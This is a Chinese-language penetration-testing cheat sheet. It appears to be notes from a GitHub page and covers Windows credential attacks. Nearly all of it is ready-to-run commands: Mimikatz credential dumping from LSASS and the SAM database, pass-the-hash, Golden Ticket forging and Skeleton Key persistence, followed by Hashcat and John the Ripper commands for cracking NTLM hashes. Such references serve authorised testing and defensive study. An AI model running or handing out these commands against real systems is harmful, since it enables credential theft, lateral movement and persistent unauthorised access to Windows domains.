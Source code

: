Mimikatz
(1)在线获取lsass进程中的密码
privilege::debug
sekurlsa::logonPasswords full
(2)离线获取
procdump.exe -accepteula -64 lsass.exe lsass.dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
(3)在线读取sam数据库获取Hash
privilege::debug
token::elevate
lsadump::sam
(4)离线读取sam数据库获取Hash
使用reg命令导出注册表
reg save hklm\\sam c:\sam.hive
reg save hklm\\system c:\system.hive
读取Hash:
privilege::debug
lsadump::sam /system:system.hive /sam:sam.hive
(5)Pass-The-Hash攻击
privilege::debug
sekurlsa::pth /user:Administrator /domain:. /ntlm:xxxx dir \\\\192.168.xxxx.xxx\\c$
(6)Golden Ticket
privilege::debug
kerberos::golden /user:admin /domain:pentestlab.com
/sid:xxx /krbtgt:xxx /admin:admin.tck /ptt dir \\\\dc.pentestlab.cvom\\c$
(7)Skeleton Key
privilege::debug
misc::skeleton
(8)获取系统进程列表
process::list

# **HashCat**

`hashcat -m 1000 -a 0 --force 31d6cfe0d16ae931b73c59d7e0c089c0 pass.txt`		
	`-m 指定模式 1000为ntlm v1 5600位ntlm v2`
	`-a 指定破解模式 0位字典破解`
	`然后后面为ntlm hash和字典`



`hashcat -m 1000 -a 3 --force 31d6cfe0d16ae931b73c59d7e0c089c0 ?l?l?l?l?l?l?l`
`?l              代表小写字母`
`?u              代表大写字母`
`?d              代表数字`
`?s              代表特殊字符`
`?a              代表大小写字母、数字以及特殊字符`  
`?b              0x00-0xff` 

`0    straight                                字典破解`
`1    combination                             将字典中密码进行组合（1 2 ——> 11 22 12 21）`
`3    brute-force                             使用指定掩码破解`
`6    Hybrid Wordlist + Mask                  字典+掩码破解`
`7    Hybrid Mask  + Wordlist                 掩码+字典破解`

`john --wordlist=/path/to/wordlist.txt --format=NT hashes.txt`
`john --mask=?l?l?l?l?l?l?d?d --format=NT hashes.txt`
 john --format=NT hash.txt
